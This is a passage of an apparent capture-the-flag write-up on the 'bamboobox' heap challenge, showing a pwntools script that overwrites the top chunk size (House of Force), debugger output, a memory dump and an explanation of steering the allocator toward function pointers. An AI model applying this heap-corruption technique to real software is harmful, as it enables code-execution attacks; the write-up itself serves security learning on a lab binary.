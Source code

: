 ```py

p = process("./bamboobox")
elf = ELF("bamboobox")
pause()
add(24, "A"*24)
edit(0, 32 , b"A"*24 + p64(0xffffffffffffff))

p.interactive()
```

Running the script and then attach it to `-pwndbg` session, we get to see that:-

```r
pwndbg> top_chunk
Top chunk
Addr: 0xfa0290
Size: 0xfffffffffffffff
```

Awesome, let's move on to write something on the memory.


### Something interesting


```r
0xfa0260	0x0000000000400896	0x00000000004008b1	..@.......@.....
0xfa0270	0x0000000000000000	0x0000000000000021	........!.......
0xfa0280	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0xfa0290	0x4141414141414141	0x0fffffffffffffff	AAAAAAAA........	 <-- Top chunk
```


Why are we making the size of top_chunk to the unsigned integer? That is because the size of the top chunk denotes the size of the heap available for allocation, now when we tend to do overwrite it with maximum value, the malloc mechanisms thinks that we have very large amount of area available for allocation, hence the process map of the program is available within the grasp of malloc.


```r
---------------- 
|   PROGRAM    |   |  LOW
----------------   V
|    BSS       | 
----------------
----------------
|    HEAP      |   |
----------------   V
|    LIBC      |
----------------
|    STACK     |
----------------   |   HIGH
                   V
```


If we get to see the heap layout, we see that there are address from the `.text` section of functions which are being called when we tend to exit it. To be more precise, these functions are stored at just 0x21 bytes before the top_chunk sixze field which then can be crafted coorectly, now this will need almost more of 0x40 + 0x20 bytes which is difference between the top chunk and the address where we want the wilderness to move.
